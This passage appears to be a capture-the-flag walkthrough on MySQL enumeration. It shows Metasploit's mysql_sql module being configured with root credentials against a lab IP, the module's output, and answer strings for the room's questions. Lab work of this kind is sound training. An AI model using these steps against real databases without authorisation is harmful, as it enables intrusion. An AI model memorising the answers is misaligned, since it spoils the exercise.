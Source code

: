 `No answer needed`

Okay, we know that our login credentials work. Lets quit out of this session with "exit" and launch up Metasploit.

`No answer needed`

We're going to be using the "mysql_sql" module.
Search for, select and list the options it needs. What three options do we need to set? (in descending order).

```
msf5 > search mysql_sql

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/admin/mysql/mysql_sql                   normal  No     MySQL SQL Generic Query


msf5 auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306              yes       The target port (TCP)
   SQL       select version()  yes       The SQL to execute.
   USERNAME                    no        The username to authenticate as
msf5 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf5 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.91.253
RHOSTS => 10.10.91.253
msf5 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
```

`PASSWORD/RHOSTS/USERNAME`

Run the exploit. By default it will test with the "select module()" command, what result does this give you?

```

msf5 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.91.253

[*] 10.10.91.253:3306 - Sending statement: 'select version()'...
[*] 10.10.91.253:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```
